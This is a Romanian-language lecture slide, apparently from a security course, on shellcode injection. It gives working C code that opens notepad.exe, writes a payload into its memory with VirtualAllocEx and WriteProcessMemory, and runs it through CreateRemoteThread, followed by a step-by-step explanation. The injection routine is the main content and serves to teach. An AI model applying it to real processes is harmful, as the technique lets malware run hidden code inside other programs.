

# Injectia de Shellcode (II)
int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {

        LPVOID pRemoteCode = NULL;
        HANDLE hThread = NULL;

        pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
        WriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
        hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteCode, NULL, 0, NULL);

        if (hThread != NULL) {
                WaitForSingleObject(hThread, 500);
                CloseHandle(hThread);
                return 0;
        }
        return -1;
}

int main(void) {

    int pid = 0;
    HANDLE hProc = NULL;

    pid = FindTarget("notepad.exe");

    if (pid) {
        printf("Notepad.exe PID = %d\n", pid);

        // DESCHIDE PROCES TINTA ...
        hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION |
                        PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
                        FALSE, (DWORD) pid);

        if (hProc != NULL) {
            Inject(hProc, payload, payload_len);
            CloseHandle(hProc);
        }
    }
    return 0;
}
Shellcode-ul este un set de instrucțiuni în limbaj de mașină utilizat adesea în exploit-uri pentru a controla comportamentul unui program afectat de o vulnerabilitate; pentru a crea un shellcode eficient, este esențial să fie compact, să evite caracterele nule și alte secvențe care ar putea termina prematur execuția și să fie adaptat la specificațiile mediului țintă, cum ar fi arhitectura sistemului și offset-urile de memorie.

Funcția Inject - Realizează injectarea propriu-zisă a shellcode-ului în procesul țintă:

int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) { ... }

VirtualAllocEx - Rezervă spațiu în procesul țintă pentru shellcode.
WriteProcessMemory - Scrie shellcode-ul în spațiul rezervat din procesul țintă.
CreateRemoteThread - Creează un fir de execuție în procesul țintă care începe execuția la shellcode.

Funcția main - Punctul de intrare principal al programului:

int main(void) { ... }

FindTarget - Se folosește pentru a obține PID-ul procesului notepad.exe.
OpenProcess - Obține un handle pentru procesul cu PID-ul specificat, cu drepturi de a crea un thread și a scrie în memorie.
Inject - Apelează funcția de injectare a shellcode-ului în procesul deschis.

Execuția și Verificarea - Când executați s.exe, shellcode-ul va încerca să injecteze și să execute messagebox-ul în notepad.exe. Dacă notepad.exe nu rulează, sau dacă nu există drepturi suficiente, injectarea nu va avea loc.